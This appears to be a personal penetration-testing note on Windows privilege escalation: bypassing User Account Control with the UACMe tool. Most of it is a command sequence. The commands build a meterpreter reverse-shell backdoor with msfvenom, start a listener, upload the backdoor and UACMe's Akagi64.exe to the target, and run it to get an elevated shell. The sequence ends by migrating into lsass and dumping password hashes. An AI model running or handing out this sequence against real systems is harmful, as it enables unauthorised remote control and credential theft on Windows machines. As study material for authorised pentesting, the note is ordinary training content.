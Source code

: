 ```yaml
---
title: PrivEsc - Bypassing UAC with UACMe
date: 2024-03-22
description: 
tags: #privesc #windows #uac
- 
---
```


# UAC (User Account Control)

UAC is a security feature introduced in Windows Vista. It is used to prevent changes to the operating system without the proper adminitrative approval. A non-privileged user attempting to execute a program with elevated privileges will be prompted with the UAC credential prompt, where a privileged user will just be prompted with a consent prompt.

It's possible to bypass UAC in order to execute malicious executables with elevated privileges.

# Bypassing UAC

To bypass UAC, we need to have access to a user account that is part of the local adminitrators group.

There are multiple tools and techniques that can be used to bypass UAC, however, the tool and technique will differ depending on the version of Windows running on the target system.

## UACMe

With more than 60 exploits, [UACMe](https://github.com/hfiref0x/UACME) is an open source privesc tool developed by *@hfire0x*. It allows attackers to execute malicious payloads on a Windows target win adminitrative/elevated privileges by abusing the inbuilt Windows AutoElevate tool.

## Bypassing UAC with UACMe

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<myip> LPORT=1444 -f exe > backdoor.exe

# Session 1
meterpreter > pgrep explorer
meterpreter > migrate <id>

# Session 2
msf5 > use multi/handler
msf5 > set payload windows/meterpreter/reverse_tcp
msf5 > set LHOST myip
msf5 > set LPORT 1444
msf5 > run

# Session 1
meterpreter > cd C:\\
meterpreter > mkdir Temp
meterpreter > cd Temp
meterpreter > upload backdoor.exe
meterpreter > upload /opt/UACME/Akagi64.exe
meterpreter > shell

C:\Temp>.\Akagi64.exe 23 C:\Temp\backdoor.exe

# We should receive a reverse shell on our listener on shell 2

# Dump them hashes!
meterpreter > ps -S lsass.exe
meterpreter > migrate <PID>
meterpreter > hashdump
```


## Links:
- [UACMe](https://github.com/hfiref0x/UACME)
- [Microsoft Learn - How User Account Control works](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/user-account-control/how-it-works)

202403221603

